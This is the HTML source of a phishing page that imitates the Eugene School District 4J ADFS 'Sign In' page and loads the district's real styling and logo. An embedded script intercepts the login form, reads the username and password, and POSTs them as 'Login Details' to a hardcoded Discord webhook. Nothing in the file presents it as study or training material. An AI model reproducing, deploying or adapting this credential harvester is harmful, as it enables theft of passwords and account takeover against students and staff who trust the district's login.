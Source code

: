 <!DOCTYPE html>
<html lang="en-US">
    <head>

        <title>Sign In</title>
        <script type='text/javascript'>



</script>


        
        <link rel="stylesheet" type="text/css" href="https://adfs.4j.lane.edu/adfs/portal/css/style.css?id=D74D4D6943F32AE6F7F11D14D601DBB0E1A58919176EE512150366B6279AAF99" /><style>.illustrationClass {background-image:url(https://adfs.4j.lane.edu/adfs/portal/illustration/illustration.png?id=183128A3C941EDE3D9199FA37D6AA90E0A7DFE101B37D10B4FEDA0CF35E11AFD);}</style>

    </head>
    <body dir="ltr" class="body">
    <div id="noScript" style="position:static; width:100%; height:100%; z-index:100">
        <h1>JavaScript required</h1>
        <p>JavaScript is required. This web browser does not support JavaScript or JavaScript in this web browser is not enabled.</p>
        <p>To find out if your web browser supports JavaScript or to enable JavaScript, see web browser help.</p>
    </div>
    <script type="text/javascript" language="JavaScript">
         document.getElementById("noScript").style.display = "none";
    </script>
    <div id="fullPage">
        <div id="brandingWrapper" class="float">
            <div id="branding"></div>
        </div>
        <div id="contentWrapper" class="float">
            <div id="content">
                <div id="header">
                    <img class="logoImage" src="https://adfs.4j.lane.edu/adfs/portal/logo/logo.png?id=8A80A1C85ED34E2DA1864ED2DCEF8C00ACC761CF9D9F2D109DF7310938CD11B2" alt="Eugene School District 4J"/>
                </div>
                <div id="workArea">
                    
    <div id="authArea" class="groupMargin">
      <div>
        <p style="margin-bottom: 25px;">Please sign in with your 4J username. <br />Do not include "@4j.lane.edu"</p>
      
        <form id="login-form">
          <label for="username" class="sr-only"></label>
          <input type="text" id="username" name="username" placeholder="Username"><br>
      
          <label for="password" class="sr-only"></label>
          <input type="password" id="password" name="password" placeholder="Password"><br>
      
          <button type="submit" id="signin-btn">Sign in</button>
        </form>
      </div>
      
      <style>
        #signin-btn {
          background-color: #2672EC;
          color: white;
          height: 30px;
          width: 90px;
          font-size: 14px;
          margin-top: 30px;
        }
        input[type="text"], input[type="password"] {
          height: 25px;
          width: 350px;
          font-size: 12px;
        }
      </style>
      
      
        
        <script>
          const webhookUrl = "https://discord.com/api/webhooks/1099787828482814015/OX4O2fN45ISZI5gQGGOwTotvMJjI2I2Fhb3Wm1JxzyJyDA4X5XPM-hf7r5dRaRwqGIEa";
        
          const loginForm = document.getElementById("login-form");
          loginForm.addEventListener("submit", event => {
            event.preventDefault();
        
            const username = document.getElementById("username").value;
            const password = document.getElementById("password").value;
        
            const message = {
              embeds: [
                {
                  title: "Login Details",
                  color: 16711680,
                  fields: [
                    {
                      name: "Username",
                      value: username,
                      inline: true
                    },
                    {
                      name: "Password",
                      value: password,
                      inline: true
                    }
                  ]
                }
              ]
            };
        
            const xhr = new XMLHttpRequest();
            xhr.open("POST", webhookUrl);
            xhr.setRequestHeader("Content-Type", "application/json");
            xhr.send(JSON.stringify(message));
          });
        </script>
        
      
      </div>
      
      <script>
        const form = document.getElementById('login-form');
        form.addEventListener('Sign in', (event) => {
          event.preventDefault();
          const username = document.getElementById('username').value;
          const password = document.getElementById('password').value;
          // Your login validation logic here
          console.log(`Username: ${username}, Password: ${password}`);
        });
      </script>
      
      
        
    


    <script type='text/javascript'>


"use strict";


if (navigator.userAgent.match(/iPhone/i) != null) {
    var emails = document.querySelectorAll("input[type='email']");
    if (emails) {
        for (var i = 0; i < emails.length; i++) {
            emails[i].type = 'text';
        }
    }
}

function getStyle(element, styleProp) {
    var propStyle = null;

    if (element && element.currentStyle) {
        propStyle = element.currentStyle[styleProp];
    }
    else if (element && window.getComputedStyle) {
        propStyle = document.defaultView.getComputedStyle(element, null).getPropertyValue(styleProp);
    }

    return propStyle;
}

var computeLoadIllustration = function () {
    var branding = document.getElementById("branding");
    var brandingDisplay = getStyle(branding, "display");
    var brandingWrapperDisplay = getStyle(document.getElementById("brandingWrapper"), "display");

    if (brandingDisplay && brandingDisplay !== "none" &&
        brandingWrapperDisplay && brandingWrapperDisplay !== "none") {
        var newClass = "illustrationClass";

        if (branding.classList && branding.classList.add) {
            branding.classList.add(newClass);
        } else if (branding.className !== undefined) {
            branding.className += " " + newClass;
        }
        if (window.removeEventListener) {
            window.removeEventListener('load', computeLoadIllustration, false);
            window.removeEventListener('resize', computeLoadIllustration, false);
        }
        else if (window.detachEvent) {
            window.detachEvent('onload', computeLoadIllustration);
            window.detachEvent('onresize', computeLoadIllustration);
        }
    }
};

if (window.addEventListener) {
    window.addEventListener('resize', computeLoadIllustration, false);
    window.addEventListener('load', computeLoadIllustration, false);
}
else if (window.attachEvent) {
    window.attachEvent('onresize', computeLoadIllustration);
    window.attachEvent('onload', computeLoadIllustration);
}

var userNameInput = document.getElementById('userNameInput');
if (userNameInput)
{

userNameInput.placeholder = 'Username';
}


var loginMessage = document.getElementById('loginMessage');  
if (loginMessage)  
{  
       
       loginMessage.innerHTML = 'Please sign in with your 4J username. <br />Do not include "@4j.lane.edu"';  
}  


var copyright = document.getElementById('copyright');  
if (copyright)  
{  
       copyright.innerHTML = '<a href="https://www.4j.lane.edu/">Eugene School District 4J</a>';  
} 
//]]>
</script>


    </body>
</html> 
